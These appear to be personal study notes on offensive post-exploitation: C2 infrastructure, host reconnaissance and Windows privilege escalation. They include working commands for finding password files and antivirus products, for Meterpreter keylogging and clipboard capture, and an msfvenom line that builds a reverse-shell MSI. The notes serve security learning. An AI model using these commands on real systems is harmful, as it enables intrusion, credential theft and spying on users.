 # Maintaining Access & Privileges escalation.
How adversaries maintain their foothold and elevate privileges.

## 1. Attack Infrastructure

Example of a resilient attack infrastructur (no direct exposure of C&C server)
Victim  <>   Internet  <>   Redirectors  <>   C2 Servers 


**Segregation** (have different C&C servers by purpose, also see powerpoint):  
- Long haul 
    - example 1 dns request a day
    - when short haul is lost, long haul can be used to recreate short haul
- Short haul
    - used for primary operation & interaction with victims
    - often via http
    - more easily detected
    ...

**Communication channels**
Protocolls often used: Mail, HTTP(S), DNS   (usually not blocked by firewall)

Some companies only allow categorized domains so users can't see all websites. Some companies are in the business of categorising websites. Attackers can try to have their websites (with dangerous data) categorized using tricks. Examples: take over an existing websites, early registration of domain.

**Redirectors**
- Passthrough -> just forward  (Socat)
    - C2 Servers only accepts connection from passthrough -> C2 server cant be detected 
- Conditional  -> example appache server
    - depending on some criteria (e.g. in url) -> traffic will be from/to C2. Is confusing.
- Domain Fronting  
    - Redirect traffic through well known public cloud (e.g. AWS or Azure)
    - Example: in http request header: the host points to the attacker and then then cloud (example azure) will direct the request to the attacker defined in host


**Payload hosting**
Payload should be on a different server than C3 infrastructure.
Malware is on Google Drive, OneDrive... will not be blocked..

**Exploitation frameworks (used for adversary simulation and attackers)**
- sliver
- cobaltstrike  
    - adversary simulation but used by milicious actors as well
    - beacon: name for post-exploitation agents on infected machines
    - Beacon chaining
        - Infected hosts communicate with each together  (or example via SMB). Only one infected host would communicate back to attacker (also for the others). From an attackers point of view, there are advantages and drawbacks. Depending on the use case: attacker would use one or multiple (infected) hosts for communication.
- metasploit 
- etc.

## 2. Host Situational Awareness
Basically, learn about the environment (network, accounts etc.) so you can avoid being detected and regain access if you are kicked out. 

Things to check
- Anti-Virus (AV) / EDR (Endpoint Detection and Response) configs
- windows security settings
- Log forwarders  (e.g. via splunk)
- PowerShell/.Net versions
- Audit policies
- ...

Possible tools/ways to check to collection infos (Windows): 
- Registry/file system: Powershell/.Net version
- event log: example when does user log in (so we know when we can usually attack)
- Powershell: logging activated? (if not harder to detect)
    - see pdf
- WMI (Windows Management Instrumentation)
    - `wmic qfe list brief` -> installed updates
    - `wmic DATAFILE where "drive='C:' AND Name like '%password%'" GET` file search
    - `wmic /namespace:\\root\securitycenter2 path antivirusproduct` enumerate Anti-Virus (AV) products
Name,readable,size /VALUE`
- User mining: 
    - keylogging (see what user is currently typing)
    - screenshots
    - observe clipboard
- Data Mining (data about organizatino)
    - Home folders
    - file shares
    - websites (Wiki, JRA etc.)
    - etc.
    - Tools
        - snaffler: find stuff in Windows/AD environment (all computers etc.)
        - etc.
    - Data Exfiltration
        - via http etc.
        - via CloudShares (OneDrive etc.)
- etc.

**Tools**
- Seatbelt
    - performs 50+ security oriented host-survey "safety checks“ for you
    - Internet history, recent commands, files SSH info etc.
- Meterpreter
    - Keylogging: `keyscan_start` -> to stop `keyscan_dump`
    - Screenshots 
    - Clipboard dump: `clipboard_monitor_start`
- Cobalt Strike (among others)
    - Screenshots: `screenshot -p <path> -q <quality>`
    - Clipboard: via powershell "Start-ClipboardMonitor.ps1"
    - KeePass (open source password manager) -> when unlocked passwords can be read from memory
- Powerview (Datamining)
    - powershell tool (part of PowerSploit project)
- Snaffler (mainly data maining)
    - tool to find secrets (credentials) in AD. etc.

## 3. Privilege Escalation
Usually, at first malware initially runs in the context of a normal user. Often next step is to escalate privileges on local system (local admin). A lot of vulnerabilities are similar accross operating systems. 

*Remark: Linux privilege escalation see separate file*

**Ways to escalate**
- UAC Bypass
    - UAC as in short: by default: process is started without admin privileges. If to run as admin: popup will appear. So user has to actively click and depending on configuration even enter pw. There are some ways to bypass UAC
    - to bypass UAC one needs a user with admin rights already (of course as otherwise there would be nothing to bypass)
    - ways to bypass see: https://github.com/hfiref0x/UACME
        - AlwaysInstallElevated for MSI  (see below)
        - often Dll Hijacking/sideloading is involved
        - Tools like "Cobal strike" or "Metasploit modules" also support this
- Some misconfigurations
    - AlwaysInstallElevated: AD Group policies which set to true.. makes the msi's run as admin. (even if user is not yet admin) 
        - Tool meterpreter can generate msi that creates a shell: "msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 –f msi > shell.msi"  (other tools like PowerUp can do that too)
    - Unattended Installation files (sometimes pw can be found in them)
    - Service binaries that one has write access and will be executed as admin
        - or generally any file that is executed with another user. (would be privilege escalation to another user)
    - Hijack Execution flow
        - if dll use is not immediatly found, windows will search different places to find the place. If attacker has write privileges in one of these places, it is possible to place "infected" dlls there. 
            - Vulnerability: "Unquoted Service Paths" when path/name has whitespaces so windows will look in multiple places
            - path variables (mentioned above)
    - DDL side loading
        - similar to dll hijacking.. smuggle in a malicious dll when windows Side-by-Side manifests are not specific enough about which dll to be loaded
    - etc.
- exploit known vulnerable software
    - potentially to be exploited via tools like metosploit
    - or search for internally developed software (.net or java as easily they can be easily decompiled)

*Some tools**
- PowerSploit: > collection of powershell scripts
- SharpUp > various PowerUp functionality
- PrivescCheck > similar to PowerSploit
- Sysinternals -> can be used to search for files with write access (can be used by sysadmins and attackers)
- ...

Varia: 
- check if im a local admin: `net.exe localgroup administrators` or `whomai.exe /groups` or `wmic useraccount where "LocalAccount = true"` 


## 4. AD Situational Awareness

## 5. Credential Abuse

## Varia/Leftovers
- SMB -> server message block (windows protocol name)
- Reading memroy of other processes
    - possible if other process is running under the same user. Via OS tools 
    - https://stackoverflow.com/questions/1989783/how-is-it-possible-to-access-memory-of-other-processes#:~:text=Processes%20cannot%20access%20other%20processes,this%20mechanism%20to%20privileged%20processes.&text=Save%20this%20answer.,-Show%20activity%20on
- LAPS: AD feature to keep track of local admin passwords (as each machine should have a different local admin pw and this would be impossible to manage, microsoft added this feature to AD)
- Manifest in windows dll: every dll has a manifest (metadata of dll). 